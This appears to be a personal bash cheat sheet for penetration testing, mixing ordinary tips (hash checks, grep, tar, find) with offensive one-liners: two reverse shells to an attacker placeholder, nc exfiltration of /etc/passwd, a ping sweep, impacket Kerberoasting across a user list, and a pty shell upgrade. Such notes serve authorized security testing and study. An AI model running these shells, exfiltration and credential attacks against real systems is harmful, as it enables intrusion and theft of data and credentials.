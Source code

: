 # bash

### diff a file hash with its published value

`diff <(shasum -a 256 /path/to/file.ext) <(echo "published_sha256_value")`

use something like `... | sed 's/ .*$//'` to strip the extraneous info from the shasum cmd. Add info to the end of the published value to test.

`diff <(shasum -a 256 /path/to/file.ext | sed 's/ .*$//') <(echo "published_sha256_value")`

### carve a range of files by exact beginning and end

`ls -lh | grep "some_logs.log" | grep -E "1[3-9].gz|2[0-6].gz"`

Lists only `some_logs_13.gz` to `some_logs_26.gz`. Pipe that into whatever to do whatever.

### find hashes (hex) from output

`grep -a [a-f0-9]\{32\}`

Pipe output from things like `strings` here to finds hashes. The above will work for all hashes that are 32 characters or greater (md5, sha256, etc). Not perfect; will catch any string that matches the pattern, not just hashes. Adapt as needed. To find sha256 you could do

`grep -a [a-f0-9]\{64\}`

### reverse shell

`bash -i >& /dev/tcp/<attacker ip>/<listening port> 0>&1`

or if no `-e`

`mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc attacker ip listening port > /tmp/f`

### do things to entires in IPs.txt
`for ip in `cat ips.txt`; do md5sum $ip; done >> something.txt`

### ippsec's scanner
```bash
#!/bin/bash
# by Ippsec https://www.youtube.com/watch?v=kE36IGAU5rg

for i in $(seq 2 225); do
    ping -c 1 -W 1 172.20.0.$i 1>/dev/null 2>&1
    if [[ $? -eq 0 ]];  then
          echo "172.20.0.$i - Online"
    fi
done
```
### grep for a string recursively in a dir
```bash
grep -r --include "*.h" "get_return_address" .
# --include "*.h" --> search files ending in .h
```
### exfil /etc/passwd (OR ANYTHING) with nc
```bash
# set up listner on attack box, port 31337. Direct output to exfil.txt
nc -nvlp 31337 > exfil.txt
# on the target, use
nc <attacker_ip_addr> 31337 < /etc/passwd # replace /etc/passwd with whatever file you want to try
```

### if your tool can't handle cidr notation, do it the hard way (ex: is a 10.10.0.0/16)
```bash
for i in $(seq 1 255); do echo "10.10.$i.1-255"; done | tr "\n" ","
```
### Mount a CIFS share with your Kerberos ticket on Linux 
```bash
sudo mount -t cifs -o "sec=krb5,cruid=$UID,user=Administrateur,domain=http://FOO.BAR" //AD1.FOO.BAR/C$ /mnt/test
```
### tar and untar a directory
```bash
tar -zcvf archive.tar.gz directory/;
tar -zxvf archive.tar.gz
```
### impacket scripts using a file containing a list of users (GetUserSPNs as an example)

```bash
for i in $(cat ~/path/to/user.list); do echo $i; ./GetUserSPNs.py -request -dc-ip 10.10.xx.xxx -no-pass -k domain.name/$i; sleep 5; done
```
### python3 pty
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL-z
bg
stty raw -echo
fg
```

### Find files in a directory
```bash
find . -ls -type f
```

